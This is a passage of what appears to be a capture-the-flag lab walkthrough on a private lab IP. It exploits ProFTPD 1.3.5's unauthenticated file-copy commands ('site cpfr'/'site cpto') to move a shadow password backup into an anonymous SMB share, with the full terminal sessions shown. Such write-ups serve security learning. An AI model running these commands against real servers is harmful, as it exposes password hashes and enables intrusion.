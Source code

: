 ```bash
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName                      "ProFTPD Default Installation"
ServerType                      standalone
DefaultServer                   on

...
# Set the user and group under which the server will run.
User                            aeolus
Group                           aeolus

```
So at the top of this log there are some commands ran by root to back up the shadow file, then the smb.conf is shown. Later on the user also displays the FTP configuration. The only thing these logs provide is a username: aeolus, and not really much else. I guess also the knowledge that the shadow file was backed up. Next to check out FTP.

### 3. Look at FTP
Looking at FTP, Nmap says it is ProFTPd 1.3.5. This one does have a command execution excution vulnerability (https://www.exploit-db.com/exploits/36803) that can be done unauthenticated, which is good because anonymous access requires a valid email which we don't have.
  
The exploits basically let you copy a file from one place to another. It should be possible to target the shadow.bak file and drop it on the web server (which seems to be what a lot of the pre-written exploits aim to do with a reverse shell php file), however getting it to the web server is tricky without knowing where the files are hosted from. WebFS can host from anywhere and there doesn't seem to be a standard location. The other option is to copy into the accessible anonymous share, where the location is known because of having read the config file.

### 4. Exploit FTP
Copy shadow.bak into the SMB share.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ftp 192.168.34.142
Connected to 192.168.34.142.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.34.142]
Name (192.168.34.142:kali): 
331 Password required for kali
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/shadow.bak
250 Copy successful
ftp> exit
221 Goodbye.
```
That appears to have worked.  
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ smbclient //192.168.34.142/anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul  4 01:54:47 2021
  ..                                  D        0  Thu Jul 18 10:29:08 2019
  backups                             D        0  Thu Jul 18 10:25:17 2019
  shadow.bak                          N     1173  Sun Jul  4 01:54:47 2021

```